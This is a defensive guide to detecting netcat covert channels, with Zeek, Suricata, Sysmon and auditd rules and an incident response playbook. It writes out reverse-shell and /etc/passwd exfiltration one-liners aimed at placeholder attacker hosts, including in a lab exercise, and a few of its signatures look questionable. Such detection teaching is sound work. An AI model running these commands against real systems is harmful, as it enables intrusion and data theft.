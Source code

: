 # Detecting and defending against covert communications

### **1. Understanding Netcat’s Covert Use Cases**  
Netcat (`nc`) is a versatile networking tool often abused by adversaries for:  
- **Reverse shells**: `nc -e /bin/sh <attacker_IP> <port>`  
- **File exfiltration**: `nc -w 3 <attacker_IP> <port> < /etc/passwd`  
- **Port scanning**: `nc -zv <target_IP> 1-1000`  
- **C2 Relays**: Chaining netcat instances to pivot through networks.  

---

### **2. Detection Strategies**  
#### **A. Network-Based Detection**  
##### **a. Unusual Port Activity**  
- Netcat often uses uncommon ports (e.g., 4444, 31337) or masquerades as HTTP/HTTPS (ports 80/443) with non-standard protocols.  
- **Example**: Use `tshark` (Wireshark CLI) to flag traffic on suspicious ports:  
  ```bash
  tshark -r traffic.pcap -Y "tcp.port == 4444 && !(http || tls)"  
  ```  

##### **b. Payload Analysis**  
- Netcat traffic lacks typical protocol headers (e.g., HTTP/SMTP). Use **Bro/Zeek** to detect raw TCP/UDP sessions:  
  ```bro
  event connection_state_remove(c: connection) {
    if (c$id$resp_p == 4444 && c$history == "SrA") {  # SrA = SYN, SYN-ACK, ACK
      NOTICE([$note=Covert_Channel,
              $msg=fmt("Suspicious raw TCP session to %s", c$id$resp_h)]);
    }
  }
  ```  

##### **c. Suricata/Snort Signatures**  
Create custom rules to detect netcat patterns:  
```suricata  
alert tcp any any -> any any (msg:"Netcat Reverse Shell Detected"; content:"|00 00 00 00 00 00 00 00|"; depth:8; sid:1000001;)  
```  
*(Note: The byte sequence `00 00 00 00 00 00 00 00` is common in netcat raw TCP sessions.)*  

---

#### **B. Host-Based Detection**  
##### **a. Process Monitoring**  
- Netcat processes (`nc`, `ncat`, `netcat`) are short-lived. Use **Sysmon** (Windows) or **auditd** (Linux) to log process creation:  
  **Sysmon Configuration (Windows)**:  
  ```xml  
  <RuleGroup name="Netcat Detection">  
    <ProcessCreate onmatch="include">  
      <CommandLine condition="contains">nc</CommandLine>  
      <CommandLine condition="contains">ncat</CommandLine>  
    </ProcessCreate>  
  </RuleGroup>  
  ```  

  **Linux Auditd Rule**:  
  ```bash  
  auditctl -a always,exit -F arch=b64 -S execve -F exe=/usr/bin/nc -k netcat_usage  
  ```  

##### **b. Open Network Connections**  
- Use `netstat`/`lsof` to identify unexpected connections:  
  ```bash  
  # Linux:  
  lsof -i -P -n | grep 'nc\|netcat'  

  # Windows:  
  netstat -ano | findstr /i "ESTABLISHED" | findstr ":4444"  
  ```  

##### **c. Persistence Mechanisms**  
Check for netcat in startup scripts or cron jobs:  
```bash  
# Linux:  
grep -r "nc" /etc/cron* /var/spool/cron  

# Windows:  
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /s | findstr /i "nc"  
```  

---

#### **C. Behavioral Indicators**  
- **Unusual Outbound Connections**: A non-browser process (e.g., `svchost.exe`) connecting to external IPs on high ports.  
- **Data Exfiltration Patterns**: Large volumes of data sent via raw TCP/UDP (e.g., 100MB from a user’s workstation).  
- **EDR Alerts**: Tools like CrowdStrike or Carbon Black flagging `cmd.exe` spawning `nc.exe`.  

---

### **3. Defensive Countermeasures**  
#### **A. Network Hardening**  
- **Egress Filtering**: Block outbound traffic on non-essential ports (e.g., only allow 80/443/53).  
- **Proxy All Traffic**: Force HTTP/S through a proxy (e.g., Squid) to inspect raw TCP/UDP.  
- **Network Segmentation**: Isolate critical systems to limit lateral movement.  

#### **B. Host Hardening**  
- **Application Whitelisting**: Block `nc`, `ncat`, and `netcat` via AppLocker (Windows) or `rpm -e netcat` (Linux).  
- **Least Privilege**: Ensure users can’t execute arbitrary binaries (e.g., `nc` in `/tmp`).  

#### **C. Deception**  
- **Honeypots**: Deploy fake servers on common netcat ports (e.g., 4444) to trigger alerts.  
  ```bash  
  # Honeypot listener:  
  nc -lvp 4444  
  ```  

---

### **4. Incident Response Playbook**  
**Scenario**: Netcat reverse shell detected on a workstation.  
1. **Contain**:  
   - Isolate the host from the network (disable NIC via `netsh interface set interface "Ethernet" disable`).  
2. **Investigate**:  
   - Capture process memory with `dumpmem` or `Volatility`:  
     ```bash  
     volatility -f memory.dump --profile=Win10x64 netscan  
     ```  
   - Check for `nc` in `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.  
3. **Eradicate**:  
   - Terminate the netcat process: `taskkill /IM nc.exe /F`.  
   - Remove persistence entries.  
4. **Hunt**:  
   - Search SIEM logs for other hosts connecting to the attacker’s IP.  

---

### **5. Advanced Detection: Encrypted Netcat (ncat with SSL)**  
Adversaries often wrap netcat in SSL to evade detection:  
```bash  
ncat --ssl <attacker_IP> 443  
```  
**Detection**:  
- Use JA3/S hashes to fingerprint SSL/TLS clients (ncat uses OpenSSL libraries):  
  ```suricata  
  alert tls any any -> any any (msg:"Suspicious JA3 Hash"; ja3.hash; content:"a0e9f5d64349fb13191bc781f81f42e1"; sid:1000002;)  
  ```  

---

### **6. Lab Exercise**  
1. **Simulate a Netcat Attack**:  
   - On Kali: `nc -lvp 4444`  
   - On Victim: `nc <kali_IP> 4444 -e /bin/bash`  
2. **Detect with Zeek**:  
   - Analyze `conn.log` for raw TCP sessions.  
3. **Write a Custom Suricata Rule**:  
   - Trigger an alert when `nc` connects to port 4444.  

---

### **Key Takeaways**  
- Covert tools like netcat leave traces in **process logs**, **network metadata**, and **behavioral patterns**.  
- Combine **network signatures**, **host-based telemetry**, and **SSL fingerprinting** for robust detection.  
- Use **deception** and **egress filtering** to disrupt adversaries.  

Additional tactics can include: DNS tunneling and ICMP covert channels.
